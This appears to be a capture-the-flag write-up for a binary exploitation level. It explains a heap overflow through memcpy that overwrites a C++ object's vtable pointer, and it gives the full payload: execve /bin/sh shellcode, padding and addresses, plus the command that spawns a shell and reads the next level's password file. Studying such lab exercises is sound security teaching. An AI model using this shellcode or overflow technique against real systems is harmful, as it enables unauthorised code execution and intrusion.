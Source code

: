 # Level 9

## Initial Context

- One file: `level9`

## Solving the Challenge

The executable expects one argument.

The program is written in `C++`.
It uses one class named `N`, that has an `vtable`.

The first argument is copied using a `memcpy` of which can be abused.

If run using `ltrace`, we can see two allocation of `N`.

```bash
$ ltrace ./level9 abc
...
operator new(108)               = 0x804a008
operator new(108)               = 0x804a078
strlen("abc")                   = 3
memcpy(0x0804a00c, "abc", 3)    = 0x0804a00c
...
```

These two allocation are only `112 bytes` off (or `0x70`).

The program uses a `vtable` that store the `operator+` function.
Meaning that the memory layout is:

| offset | name |
| --- | --- |
| 0 | vtable* |
| 4 | char[100] |
| 100 | int |

Even if this is opaque to the user, the `sizeof` is still impacted and an overwrite is still possible.

To access the `vtable`'s `operator+` field, we need to read the pointer twice. And that exactly what the `(b->operator+(*a).value)` at the end of the file will do.

We can craft the payload like this:

```python
# a's buffer + 4: the second jump
"\x10\xa0\x04\x08";

# shell code (same as level2)
+ "\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"

# padding of 80
+ "A" * 80

# a's buffer: the first jump
+ "\x0c\xa0\x04\x08"
```

Why a padding of `80 bytes`?

We have a total of `112 bytes` between the two `N` allocations. But the first `N`'s buffer is at `+4`, that means only `108 bytes` between `a's buffer` and `b's vtable pointer`.

The shell code is `24 bytes` long and the address for the second jump is `4 bytes` long. Leaving `80 bytes` of that we have to fill to specify for the first jump.

Let's send it to the vulnerable program:

```bash
$ ./level9 $(python -c 'print "\x10\xa0\x04\x08" + "\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80" + "A" * 80 + "\x0c\xa0\x04\x08"')
$ whoami
bonus0
$ cat /home/user/bonus0/.pass
<flag>
```
